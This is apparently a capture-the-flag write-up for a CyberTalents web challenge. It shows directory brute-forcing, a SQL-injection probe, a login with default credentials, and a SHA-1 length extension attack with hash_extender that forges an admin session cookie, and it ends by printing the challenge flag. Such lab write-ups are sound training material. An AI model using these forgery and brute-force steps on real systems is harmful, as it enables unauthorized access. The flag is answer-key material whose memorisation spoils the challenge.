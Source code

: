 # Solve space
#### https://cybertalents.com/challenges/web/space

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Check `robots` & `login` endpoints
```bash
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/robots.txt        
User-agent: *
Disallow: /auditor/auditor
                                                                                                                                                 
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/login.php 
<html>
 <form action="" method="post">
    <label for="username">Username</label>
    <input type="text" id="username" name="username" required>
<br>
  <label for="password">Password</label>
  <input type="password" id="password" name="password"  required>
<br>
    <input type="submit" value="Submit">
  </form>
</html>
```
#### Check `/auditor/auditor` endpoint
```bash
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/auditor/auditor
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```
### SQLI in login 
```http
POST /login.php HTTP/1.1
Host: wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/login.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

username='&password=
```
No output 

#### Login with credential `auditor:auditor`
![alt text](images/image-1.png)

```txt
session 757365723d61756469746f7226726f6c653d61756469746f72
signature 9cdc8cbee716e38a1549f52a797fc4466e826097
```
```bash
hURL -x "757365723d61756469746f7226726f6c653d61756469746f72" 
Original HEX      :: 757365723d61756469746f7226726f6c653d61756469746f72
ASCII/RAW DEcoded :: user=auditor&role=auditor
```

```bash
hashid 9cdc8cbee716e38a1549f52a797fc4466e826097          
[+] SHA-1
```
Can't crack the signature

### Manipulate Cookies
edit the cookie to set the role as admin 
```bash
hURL -X "user=admin role=admin"
Original    :: user=admin&role=admin
Hex ENcoded :: 757365723d61646d696e26726f6c653d61646d696e
```
Bad Signature, Don't Try to Manipulate Cookies

### length extension attack
A length extension attack is a type of cryptographic attack that exploits the way some hash functions, particularly hashes (like MD5, **SHA-1**, and SHA-256), process data. It allows an attacker to extend the length of a hashed message and compute a valid hash **without** knowing the original message.

If an attacker knows the hash of a message **(H(M))** *(as we know the sha1 Signature)*, they can compute **H(M || extra_data)** without knowing **M**.
So it enables attackers to create malicious extensions without knowing the original input.

#### Genrate an new Hash and Signature with `hash_extender`
./hash_extender -d 'user=auditor&role=auditor' -s '9cdc8cbee716e38a1549f52a797fc4466e826097' -a 'admin' -f 'sha1' -l 38
Type: sha1
Secret length: 38
New signature: e2467f09b8e23ffee8c16196222dc25995044589
New string: 757365723d61756469746f7226726f6c653d61756469746f7280000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001f861646d696e

Edit the Cookies with the new data and you get the flag

![alt text](images/image-2.png)

Your Flag is 2fb193b67bf1f7464d88dfe957f73b0a

### Resource
[Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack)
[hash extender](https://github.com/iagox86/hash_extender)

>Find More on ==> github.com/MedhatHassan 
